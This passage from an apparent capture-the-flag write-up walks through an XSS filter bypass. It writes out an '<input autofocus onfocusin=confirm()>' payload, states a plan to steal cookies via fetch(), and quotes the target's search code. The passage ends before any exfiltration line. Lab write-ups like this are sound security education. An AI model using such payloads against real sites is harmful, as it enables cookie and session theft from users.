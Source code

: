 So we need to find some other attribute, we used `onfocusin`:

```
<input autofocus onfocusin=confirm()>
```

We now get a confirm alert box:
![hackthebox1confirm.png](images/25-pwnmequals/hackthebox1confirm.png)

## XSS: Exfiltration efforts

We now need to just do a `fetch()` to send a web request with the cookies. This turned out to be alot more of a pain due to how it selects its words.

```js
function searchArticles(searchInput = document.getElementById('search-input').value.toLowerCase().trim()) {
...
const searchWords = searchInput.split(/[^\p{L}]+/u);
...
const articleText = article.textContent.toLowerCase();
const isMatch = searchWords.some(word => word && new RegExp(`${word}`, 'ui').test(articleText));
...
}
```

